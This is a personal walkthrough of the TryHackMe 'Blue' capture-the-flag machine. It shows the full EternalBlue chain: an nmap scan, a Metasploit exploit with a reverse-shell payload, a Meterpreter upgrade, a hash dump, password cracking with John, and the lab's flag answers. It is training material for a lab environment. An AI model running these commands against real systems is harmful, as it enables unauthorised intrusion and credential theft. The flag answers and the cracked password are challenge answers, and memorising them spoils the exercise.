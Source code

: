 TryHackMe - Blue Walkthrough

This is my first documented CTF walkthrough, focused on the TryHackMe machine Blue, which explores the famous EternalBlue vulnerability (MS17-010).

I am currently progressing through the TryHackMe learning path, and this machine provided a solid hands-on experience. Completing Blue allowed me to apply enumeration techniques, exploit development, privilege escalation, and post-exploitation activities in a controlled environment.

This document presents each step I followed, explaining the methods, tools, and decisions throughout the exploitation process.
Task 1 — Scanning the Machine

The first step was to perform an initial enumeration of the target machine using Nmap. I opted for a quick scan of the most common ports to identify accessible services.
Command used:

nmap -vv -F 10.10.40.249

Results:

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

The presence of port 445 indicated that SMB was available on the machine. After researching, I discovered that SMB services on this port have been associated with the EternalBlue vulnerability (MS17-010).
Task 2 — Exploiting EternalBlue

After confirming that SMB was available, I proceeded to exploit the machine using Metasploit and the EternalBlue module.
Commands used:

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.40.249
set LHOST 10.9.2.36
set payload windows/x64/shell/reverse_tcp
run

After executing the exploit, I gained a shell access to the target system.
Task 3 — Upgrading Shell and Privilege Escalation

Upon gaining the initial shell, I upgraded it to a Meterpreter session to have better control and post-exploitation options.
Commands used:

sessions -u 1

After upgrading, I verified the current privileges:

getuid

The session confirmed that I was running as NT AUTHORITY\SYSTEM.
I also listed running processes:

ps

And migrated into a stable SYSTEM process to avoid losing the session:

migrate <PID>

Task 4 — Dumping and Cracking Password Hashes

With SYSTEM privileges, I dumped the local password hashes using Meterpreter.
Command used:

hashdump

Results:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

I identified a non-default user account: Jon.

I then proceeded to crack Jon's password hash using John the Ripper with the rockyou.txt wordlist.
Commands used:

echo 'jon:ffb43f0de35be4d9917ac0cc8ad57f8d' > jon.hash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jon.hash
john --show jon.hash

Cracked password:

fuckyoh21

Task 5 — Locating the Three Flags

The final step was to locate three flags hidden within the system.
Flag 1 — Root of C:\

Navigated to the root directory and found the first flag.

cd C:\
dir
type flag1.txt

Flag 1 Content:

flag{access_the_machine}

Flag 2 — Password Storage Location (SAM)

Navigated to the SAM database location inside Windows and retrieved the second flag.

cd C:\Windows\System32\config
dir
type flag2.txt

Flag 2 Content:

flag{sam_database_elevated_access}

Flag 3 — Administrator's Documents

Navigated to the user's personal documents to find the third flag.

cd C:\Users\Jon\Documents
dir
type flag3.txt

Flag 3 Content:

flag{<your_flag_here>}

Final Thoughts

This machine offered a complete exploitation chain: from scanning and enumeration to full system compromise and post-exploitation activities.
Completing Blue helped reinforce the importance of methodical enumeration, understanding vulnerabilities, and maintaining stability during post-exploitation phases.

This was a solid exercise in real-world attack techniques against misconfigured and vulnerable systems.
End of Walkthrough
